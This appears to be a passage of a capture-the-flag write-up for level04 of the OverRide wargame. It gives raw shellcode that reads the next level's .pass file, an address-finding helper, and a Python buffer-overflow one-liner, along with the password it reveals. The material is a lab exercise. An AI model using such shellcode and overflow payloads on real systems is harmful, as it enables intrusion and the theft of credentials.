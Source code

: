 - Always better with some extra NOPs (\x90):
```
level04@OverRide:~$ export SHELLCODE=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x83\xe4\xf0\x83\xec\x40\
x31\xc0\x83\xc0\x73\x89\x44\x24\x18\xc7\x44\x24\x14\x2e\x70\x61\x73\xc7\x44\x24\x10\x6c\x30\x35\x2f\xc7\x44\x24\x0c\x
6c\x65\x76\x65\xc7\x44\x24\x08\x65\x72\x73\x2f\xc7\x44\x24\x04\x65\x2f\x75\x73\xc7\x04\x24\x2f\x68\x6f\x6d\x89\xe3\x3
1\xc9\x31\xd2\x31\xc0\x83\xc0\x05\xcd\x80\x89\xc3\x89\xe1\x31\xd2\x83\xc2\x28\x31\xc0\x83\xc0\x03\xcd\x80\x31\xdb\x83
\xc3\x01\x89\xe1\x31\xd2\x83\xc2\x28\x31\xc0\x83\xc0\x04\xcd\x80")
```

- Our buffer starts at `0x20(%esp)` and esp has been sub for 0xb0 bytes, and there is a small gap between `0xb0(%esp)` and ebp due to `0x080486cd <+5>:     and $0xfffffff0,%esp` and other pushes that have been done before the sub. So, before our input starts to overwrite saved eip (ebp+0x4), we got to put 156 bytes. Then:
```c
#include <stdio.h>
#include <stdlib.h>

void main(void)
{
        printf("%p\n", getenv("SHELLCODE"));
}
```
```
level04@OverRide:~$ /tmp/getenv
0xffffd869
level04@OverRide:~$ (python -c "print('a'*156 + '\xff\xff\xd8\x69'[::-1])") | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
